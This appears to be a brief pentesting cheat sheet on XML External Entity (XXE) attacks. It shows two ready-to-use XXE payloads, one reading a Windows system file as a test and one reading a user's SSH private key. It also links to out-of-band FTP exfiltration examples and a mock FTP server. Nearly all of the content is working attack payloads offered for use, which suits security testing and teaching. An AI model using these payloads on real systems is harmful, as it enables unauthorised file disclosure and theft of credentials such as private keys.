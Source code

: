 ## XXE / XEE

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

Sample payload for testing whether it's possible

```bash
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY toreplace SYSTEM 'file:///c:/windows/win.ini'> ]>
<order>
    <quantity>1234</quantity>
    <item>&toreplace;</item>
    <address>1234533453</address>
</order>
```

## Common attack vectors

```bash
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY toreplace SYSTEM 'file:///c:/users/dave/.ssh/id_rsa'> ]>
<order>
    <quantity>1234</quantity>
    <item>&toreplace;</item>
    <address>1234533453</address>
</order>
```

## Out-of-band exfiltration

[Example of OOB-exfiltration using FTP](https://gosecure.github.io/xxe-workshop/#3)

[Mock FTP server for FP-based OOB-exfiltration](https://github.com/GoSecure/xxe-workshop/blob/master/22_dtd_xxe/solution/ftp_server.rb)